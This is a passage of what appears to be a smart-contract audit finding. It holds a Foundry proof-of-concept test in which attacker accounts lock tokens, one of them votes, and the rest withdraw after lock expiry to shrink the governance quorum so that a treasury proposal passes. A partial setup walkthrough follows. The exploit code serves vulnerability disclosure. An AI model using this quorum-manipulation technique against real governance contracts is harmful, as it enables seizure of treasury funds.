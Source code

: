 ```solidity 
            IGovernance.ProposalType.TreasuryAction
        );
        vm.stopPrank();
​
        uint256 initialQuorum = governance.quorum();
        console.log("Initial quorum requirement:", initialQuorum);
​
        // Move to voting period
        vm.warp(block.timestamp + governance.votingDelay() + 1);
​
        // Only attacker votes
        vm.prank(attackerAccounts[0]);
        governance.castVote(proposalId, true);
​
        // Fast forward past lock expiry (365 days + 1)
        vm.warp(block.timestamp + 366 days);
        
        // Now other attckers can unlock their tokens
        for(uint i = 1; i < NUM_ACCOUNTS; i++) {
            vm.prank(attackerAccounts[i]);
            veToken.withdraw(); // Should work now since lock expired
        }
​
        // Check final quorum
        uint256 finalQuorum = governance.quorum();
        console.log("Final reduced quorum:", finalQuorum);
        assertTrue(finalQuorum < initialQuorum, "Quorum should be reduced");
​
        // Move past voting period
        vm.warp(block.timestamp + governance.votingPeriod() + 1);
​
        // Verify attack success
        (uint256 forVotes, uint256 againstVotes) = governance.getVotes(proposalId);
        assertTrue(
            forVotes >= finalQuorum,
            "Proposal passes with manipulated quorum"
        );
​
        IGovernance.ProposalState state = governance.state(proposalId);
        assertTrue(
            state == IGovernance.ProposalState.Succeeded,
            "Proposal should succeed through timing attack"
        );
    }
} 
```

Technical Deep Dive
Initial State Setup:

// Multiple attackers lock tokens
for(uint i = 0; i < NUM_ACCOUNTS; i++) {
    vm.startPrank(attackerAccounts[i]);
    raacToken.approve(address(veToken), 200_000e18);
    veToken.lock(200_000e18, 365 days);  // Each account locks 200k tokens
    vm.stopPrank();
}
​
// Attacker gets extra voting power
vm.startPrank(attackerAccounts[0]);
raacToken.approve(address(veToken), 400_000e18);
veToken.lock(400_000e18, 365 days);     // Attacker locks additional 400k tokens
vm.stopPrank();
Initial State: